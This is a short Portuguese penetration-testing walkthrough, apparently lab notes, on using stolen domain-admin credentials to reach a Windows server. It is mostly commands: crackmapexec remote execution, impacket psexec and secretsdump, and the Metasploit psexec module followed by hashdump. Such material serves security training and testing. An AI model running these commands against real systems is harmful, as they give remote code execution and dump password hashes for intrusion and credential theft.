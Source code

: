 <h1 align="center">Obtendo acesso ao servidor</h1>
<hr>

Vamos usar as credenciais que a gente obteve do domain ADMIN para ganhar acesso do servidor.

Poderiamos usar o crackmapexec

```sh
crackmapexec smb <IPSERVER> -u egabriel -p 'senhagabriel'
```

```sh
crackmapexec smb <IPSERVER> -u egabriel -p 'senhagabriel' -x 'whoami'
```

Usando impacket

```sh
python3 /usr/share/doc/python3-impacket/examples/psexec.py orionscorp2/gabriel:'senhagabriel'@<IPSERVER>

impacket-secretsdump orionscorp2/egabriel:'senha'@<IPSERVER>
```

Usando metasploit

```sh
msf5  exploit(windows/smb/psexec) > show options
msf5  exploit(windows/smb/psexec) > set RHOSTS <IP DO SERVIDOR>
msf5  exploit(windows/smb/psexec) > set SMBUser egabriel
msf5  exploit(windows/smb/psexec) > set SMBPass 'senhagabriel'
msf5  exploit(windows/smb/psexec) > set LPORT 443
msf5  exploit(windows/smb/psexec) > exploit
msf5  exploit(windows/smb/psexec) > hashdump
```
